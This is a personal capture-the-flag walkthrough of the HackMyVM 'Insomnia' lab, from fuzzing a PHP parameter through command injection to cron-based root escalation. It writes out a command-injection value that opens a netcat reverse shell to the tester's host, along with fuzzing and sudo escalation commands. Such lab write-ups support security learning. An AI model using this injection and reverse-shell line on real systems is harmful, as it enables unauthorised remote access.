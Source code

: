 +++
title = "Insomnia"
date = 2024-02-07T19:41:10-06:00
summary="Another machine by sml"
draft=false
tags=["pentesting","hackmyvm","easy","RCE","php","fuzzing"]
series=["Hackmyvm Easy"]
series_order=5
+++
## Foreword
Just started classes again, so the page might be updated less often, in the machines section at least. Once again, thanks for your time if you're reading this. :)
## Machine info
| Name       | Insomnia                                                         | 
| ---------- | ---------------------------------------------------------------- |
| Author     | alienum                                                                 |
| Site       | [hackmyvm](https://hackmyvm.eu/machines/machine.php?vm=Insomnia) |
| Difficulty | Easy                                                                 |

## Recon

We run our NMAP scan:

![](imagenes/Pasted%20image%2020240207195749.png)

**Note: Power went out when I was trying to solve this machine, and had to re-add it to virtual box in order to work properly again, so, instead of .24 at the end of the IP address, you'll now see .25**

Lets check the webpage:

![](imagenes/Pasted%20image%2020240207201941.png)

A chat webpage, lets check its source:

![](imagenes/Pasted%20image%2020240207202031.png)

Here we have the script in *javascript* that runs the chat session, we may be able to use *XSS* in this machine, but beforehand, lets try enumerating the webpage.

![](imagenes/Pasted%20image%2020240207202806.png)

Interesting, lets check each one of these files on the webpage:

### chat.txt

![](imagenes/Pasted%20image%2020240207202846.png)

A log of the chat, lets keep checking.

### administration.php

![](imagenes/Pasted%20image%2020240207203031.png)

Apparently, we can **call** a file here, but, we don't know the variable name that the php script is using, so, we're going to do some fuzzing with gobuster, and find out the correct variable name with this command: `gobuster fuzz -u http://192.168.25.25:8080/administration.php?FUZZ=prueba -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 65
`
![](imagenes/Pasted%20image%2020240207203709.png)

Nice, we found the variable name, lets check the webpage:

![](imagenes/Pasted%20image%2020240207203848.png)

That's good, here we can see the message we typed earlier, lets try and see if we can execute some commands.

![](imagenes/Pasted%20image%2020240207204758.png)

We don't know specifically what the php script does, we can suppose it uses `cat <file>` with function `system("cmd")` or something like that. Now, lets try the following command to see if we can get a reverse shell: `abc;nc -e /bin/bash 192.168.25.5 4444`

## Initial access

![](imagenes/Pasted%20image%2020240207205056.png)

There we go, first things first, lets get a full tty:

![](imagenes/Pasted%20image%2020240207205301.png)

We find the user flag, now lets see how we can switch to another user, or escalate privileges:

![](imagenes/Pasted%20image%2020240207205430.png)

Interesting, lets see that the script does:

![](imagenes/Pasted%20image%2020240207205615.png)

Checking the help page:

![](imagenes/Pasted%20image%2020240207205629.png)

This php command starts the webserver in port 8080, but, it does it via the `bash terminal`, so, maybe we can replace the contents and just execute a bash shell, with the privileges of the user `julia`.

***
### Note: Troubleshooting
At this point, I couldn't edit the file with `echo`, I got the following error `bash: echo: write error: No space left on device`, so, in order to fix that, I had to *resize the machine virtual disk* so it could work again, please do note, that if you do this after you run the machine once, it might break it,in my case, it just wouldn't show me the webpage, so you'll have to import the machine again, so, if you're following this walkthrough, **I recommend resizing this machine's disk beforehand. Now, lets keep going**.
***
![](imagenes/Pasted%20image%2020240207212415.png)

Good, lets check the script again:

![](imagenes/Pasted%20image%2020240207212447.png)

Now, lets try to run it as `julia` using `sudo -u julia /bin/bash /var/www/html/start.sh`:

## Privilege Escalation

![](imagenes/Pasted%20image%2020240207212742.png)

We're in as `julia`, lets see what we can do:

![](imagenes/Pasted%20image%2020240207212912.png)

We find this interesting script in `/etc/crontab`, lets check what it does:

![](imagenes/Pasted%20image%2020240207213059.png)

It seems all it does it check if some service is active, and if it isn't running, it starts it. Lets check the privileges of this file:

![](imagenes/Pasted%20image%2020240207213159.png)

Jackpot, lets edit this file with a payload, so it sends a root session to our machine:

![](imagenes/Pasted%20image%2020240207213436.png)

![](imagenes/Pasted%20image%2020240207213614.png)

As we enter this command, we get this in our listener:

![](imagenes/Pasted%20image%2020240207213651.png)

We get root, lets get that flag, and finish this machine:

![](imagenes/Pasted%20image%2020240207213853.png)

Thanks your time and good luck in future machines!

## Things I learned from this machine
- When encountering `php` file, try fuzzing for variables, they may call for certain files using the php script, allowing us to make use of **remote command execution** for initial access.
- Resize virtual machines virtual disk if I find `bash: echo: write error: No space left on device` again.

